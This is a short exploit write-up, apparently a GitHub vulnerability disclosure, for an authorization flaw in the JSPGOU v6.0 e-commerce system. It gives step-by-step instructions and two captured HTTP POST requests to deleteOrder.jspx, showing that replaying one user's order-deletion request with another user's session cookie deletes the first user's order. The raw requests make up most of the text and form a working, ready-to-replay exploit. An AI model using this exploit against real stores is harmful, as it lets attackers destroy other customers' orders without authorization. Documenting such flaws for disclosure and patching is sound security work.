





## Information

```c
Exploit Title:JSPGOU v6.0-Ultra vires order deletion
Exploit date:02.06.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.jeecms.com/
Affect Version:JSPGOU v6.0
Description:JSPGOU v6.0 foreground user has a horizontal ultra vires vulnerability. Ordinary users can delete orders from other users.
```

## How to Exploit

Step  1：Register two users

- testabc/123456
- test111/123456

Step  2：Use testabc user to create order information. Then click delete order and use burpsuite to capture the package.



```javascript
POST /order/deleteOrder.jspx HTTP/1.1
Host: 192.168.174.144:8080
Content-Length: 12
Accept: application/json, text/javascript, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.174.144:8080
Referer: http://192.168.174.144:8080/order/myorder.jspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1605675257,1605704689,1605871061,1606205262; JSESSIONID=5259ED5257037CA36DBAAE2BA8A7A635; clientlanguage=zh_CN
Connection: close

orderId=1208
```

Step 3：Drop the request packet and refresh the page to ensure that the order is not deleted



Step 4：In another browser, use test111 to log in to the system to get its cookie information



Step 5：Using the cookie of the test111 user to resend the order cancellation request packet of the testabc user, it is found that the order of the testabc user can be successfully cancelled beyond the authority

```javascript
POST /order/deleteOrder.jspx HTTP/1.1
Host: 192.168.174.144:8080
Content-Length: 12
Accept: application/json, text/javascript, */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.174.144:8080
Referer: http://192.168.174.144:8080/order/myorder.jspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1622555281; JSESSIONID=1C4C7C15CA3148D21B08EB8F97E8A89C; clientlanguage=zh_CN
Connection: close

orderId=1208
```





## Reference

https://www.jeecms.com/

